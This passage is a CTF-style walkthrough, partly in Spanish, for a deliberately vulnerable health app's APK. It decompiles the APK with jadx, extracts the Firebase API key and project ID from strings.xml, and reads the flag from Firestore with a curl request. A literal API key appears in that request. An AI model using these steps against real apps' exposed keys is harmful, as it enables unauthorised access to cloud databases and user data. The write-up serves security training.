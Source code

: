 ```bash
# Install jadx
# Download from: https://github.com/skylot/jadx/releases

# Decompile the APK
jadx -d medicloudx_decompiled medicloudx-health-manager.apk

# Navigate to resources
cd medicloudx_decompiled/resources/res/values/
cat strings.xml
```

#### Method 2: Using Android Studio APK Analyzer

1. Open Android Studio
2. Build → Analyze APK
3. Select `medicloudx-health-manager.apk`
4. Navigate to `res/values/strings.xml`

### Step 3: Firebase Configuration Extraction

**Location**: `res/values/strings.xml`

**Key Firebase Configuration Parameters**:

```xml
<string name="google_app_id" translatable="false">1:PROJECT_NUMBER:android:APP_ID</string>
<string name="gcm_defaultSenderId" translatable="false">PROJECT_NUMBER</string>
<string name="project_id" translatable="false">PROJECT_ID</string>
<string name="google_api_key" translatable="false">API_KEY</string>
<string name="firebase_database_url" translatable="false">https://PROJECT_ID-default-rtdb.firebaseio.com/</string>
<string name="google_storage_bucket" translatable="false">PROJECT_ID.appspot.com</string>
```

**Extract the following values**:
- `project_id`: Firebase project identifier
- `google_api_key`: API key for Firebase services
- `google_app_id`: Android app identifier
- `gcm_defaultSenderId`: Firebase Cloud Messaging sender ID

### Step 4: Firebase Firestore Access (Método Directo)

Una vez extraídos el API key y el nombre del proyecto del análisis del APK con jadx, puedes acceder directamente a la base de datos Firestore para obtener la flag:

#### Comando Directo para Obtener la Flag

```bash
# Usar los valores extraídos del APK
PROJECT_ID="arctic-bee-470901-c4"  # Extraído de strings.xml
API_KEY="AIzaSyBGKPKopYsBhYQmPfzZAlk_cHpv7MW8QWQ"  # Extraído de strings.xml

# Acceder a la colección 'config' en Firestore
curl "https://firestore.googleapis.com/v1/projects/${PROJECT_ID}/databases/(default)/documents/config?key=${API_KEY}"
```
